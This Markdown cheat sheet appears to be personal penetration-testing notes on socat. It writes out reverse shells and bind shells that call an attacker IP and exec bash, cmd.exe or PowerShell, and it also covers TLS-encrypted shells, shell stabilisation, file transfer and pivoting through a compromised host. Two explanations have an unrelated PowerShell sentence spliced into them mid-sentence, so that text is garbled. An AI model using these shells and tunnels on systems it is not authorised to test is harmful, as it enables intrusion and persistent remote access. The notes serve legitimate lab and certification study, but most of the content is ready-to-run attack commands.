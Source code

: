# Socat 

[Socat](https://linux.die.net/man/1/socat) is a command-line utility that establishes two bidirectional byte streams and transfers data between them. For penetration testing, it is similar to Netcat but has additional useful features. 

Socat requires:
1. "-" to transfer data between STDIO and remote host
1. protocol name
1. Any protocols, options, port ARE colon delimited

```bash
socat - TCP4:<remoteIP>:PORT

socat TCP4-LISTEN:8080 STDOUT

socat TCP4:ip:port EXEC:/bin/bash
```

#### Reverse Shells

Start a listener:
```bash
socat TCP-L:<PORT> -                                 # connect regardless with '-'
socat -d -d TCP-LISTEN:8080 STDOUT                   # -d -d = increase verbosity of output#
socat TCP4-LISTEN:8080,fork file:filename.txt,create 
# create specifies that a new file will be created.
# fork creates a child process once connection is made to the listener(multiple connections allowed)
```

Connect to reverse Shell:
```powershell
# Windows!
.\socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
.\socat.exe TCP:<IP>:<Port> EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```
On Linux
```bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```



#### Bind Shells
Start a bind listener
```bash
socat TCP-L:<PORT> EXEC:"bash -li"
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
Connect to target regardless:
```bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```

#### Shell stabilisation
```bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
[CTRL+Z]
stty raw -echo; fg 
```

Fixing terminal size
```bash
stty size
stty -rows 48 -columns 120
```

#### File transfers
```bash
socat TCP4-LISTEN:$PORT,fork file:$filename
```

#### Special upload precompiled socat binary 
```bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
1. pty, allocates a pseudoterminal on the target -- part of the stabation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer toilisation process
1. stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
1. sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
1. setsid, creates the process in a new session
1. sane, stabilises the terminal, attempting to "normalise" it

Similiarly on Windows:
```batch
.\socat.exe TCP-LISTEN:443,fork EXEC:cmd.exe,pty,stderr,setsid,sigint,sane
```

### Encrypted Shells
 
Generate a Certificate
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

# req indicates that this is a certificate signing request. 
# -x509 specifies that we want an X.509 certificate
# -newkey rsa:4096 creates a new certificate request and a new private key using  RSA, with the key size(Optional sizes!) being 4096 bits. 
# -days 365 shows that the validity of our certificate will be one year
# -subj sets data, such as organization and country, via the command-line.
# -nodes simplifies our command and does not encrypt the private key
# -keyout `PRIVATE\_KEY` specifies the filename where we want toation, knowing how to properly use PowerShell to achieve our goals is extremely important. Refer to save our private key
# -out CERTIFICATE specifies the filename to which we want to write the certificate request
```
Merge the two files:
```bash
cat shell.key shell.crt > shell.pem
```
Setup reverse shell listener 
```bash
# Linux
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 - # verify=0 means dont bother trying to validate cert 
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0,fork EXEC:/bin/bash
```
If on windows:
```powershell
.\socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:cmd.exe,pty,std
err,setsid,sigint,sane
```

The same for bind shell
```powershell
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash # For windows after:" ,verify=0 EXEC='cmd.exe' "
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
`socat` listener and connection on windows
```bash
socat.exe -d OPENSSL-LISTEN:5678,cert=<cert>, verify=0 STDOUT, bind=127.0.0.1
socat.exe OPENSSL:127.0.0.1:5678, verify=0 EXEC=’cmd.exe
```

#### Less Common Cool Usages
```bash
# Connect to a http server
socat TCP4:domain.com:80 -
# Connect to a https server
socat TCP4:domain.com:443 -

# Output hexdump from a port
socat -x tcp-listen:$port,fork -

# (sleep is necessary to prevent socat closing socket before data received)
(echo -e "GET / HTTP/1.1\r\nHost: butzel.info\r\n\r" && sleep 1) \ | socat TCP4:domain.com:80 -

# http to https 'Proxy' (for an webserver without TLS-Support)
socat OPENSSL-LISTEN:443,reuseaddr,pf=ip4,fork,cert=server.pem,cafile=client.crt,verify=0 TCP4-CONNECT:127.0.0.1:80

# udp to tcp
socat -u udp-recvfrom:1234,fork tcp:localhost:4321

# TOR-forwarding (needs tor-daemon on port 9050 running)
socat tcp4-listen:8080,reuseaddr,fork socks4A:127.0.0.1:t0rhidd3ns3rvice.onion:80,socksport=9050
#https://superuser.com/questions/1302861/how-i-can-make-port-forwarding-using-tor#1302869
```

Socat as a Proxy
```bash
socat TCP-LISTEN:6969,fork,reuseaddr,bind=127.0.0.1 TCP:remote_ip:remote_port
```

## Port Redirection and Tunnelling with `socat`

[[Port-Redirection-And-Tunnelling]] with `socat`

Port Forwarding
```bash
# Use to kill and manages jobs
jobs
kill $jobID

# Not stealthy will open a port on a compromised machine!
# Create a listener to port forward traffic from $targetToForwardAddr:$ForwardedPort
socat tcp-l:33060,fork,reuseaddr tcp:$targetToForwardAddr:$ForwardedPort &

# Stealthier
# Create a local port relay on attacking machine
socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &
# Reverse port forward from a compormised server back to  
socat tcp:$AttackingMachine:8001 tcp:$targetToForwardAddr:$ForwardedPort,fork &
```

Reverse Shell Relay 
```bash
# RemoteBox - create a listener that connects back to to the address of another box
socat tcp-l:8000 tcp:$LocalBoxAddr:443 &
# LocalBox has listen on port 443
```


## References

[jackadamson](https://jackadamson.github.io/cheatsheets/socat/)
[gothburz](https://github.com/gothburz/OSCP-PWK2.0/blob/master/practical-tools/socat-shell-cheatsheet.md)
[cheat](https://github.com/cheat/cheatsheets/blob/master/socat0)
[THM Wreath Room](https://tryhackme.com/room/wreath)